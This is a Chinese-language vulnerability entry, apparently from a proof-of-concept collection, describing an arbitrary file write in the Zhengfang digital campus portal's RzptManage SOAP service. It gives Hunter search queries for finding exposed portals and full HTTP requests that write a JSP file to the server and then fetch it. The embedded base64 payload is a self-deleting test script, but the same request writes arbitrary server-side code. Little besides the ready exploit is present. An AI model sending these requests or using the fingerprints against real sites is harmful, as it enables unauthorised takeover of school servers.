




# 一、漏洞简介
正方数字化校园信息门户平台通过对校园现有的各种系统和资源的有效集成整合，以门户的形式为学校教师、学生提供其所需的各种信息与服务，来提高校园核心竞争力，是数字化校园的重要组成部分。正方数字化校园平台RzptManage存在任意文件写入漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ hunter`(web.title="正方数字化校园信息门户"||web.title="数字化校园信息门户"||web.title="统一身份认证中心")&&web.body="正方"`、`web.body="zfca/login"&&web.body="login_bg"`
+ 特征



# 四、漏洞复现
```plain
POST /zfca/axis/RzptManage HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Content-Length: 808
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: text/xml;charset=UTF-8
SOAPAction: 
Upgrade-Insecure-Requests: 1

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:pub="http://pubService.webServices.zfca.zfsoft.com">
   <soapenv:Header/>
   <soapenv:Body>
      <pub:savePic soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <filepath xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">zkimvsrr.jsp</filepath>
         <bytes xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">PCUgb3V0LnByaW50bG4oMTExKjExMSk7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTslPg==</bytes>
      </pub:savePic>
   </soapenv:Body>
</soapenv:Envelope>
```



上传文件位置

```plain
/zfca/zkimvsrr.jsp
```

```plain
GET /zfca/zkimvsrr.jsp HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Connection: close
Accept: text/*
Accept-Encoding: gzip, deflate
```



其中上传文件内容为`base64编码`

```plain
PCUgb3V0LnByaW50bG4oMTExKjExMSk7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTslPg==
```



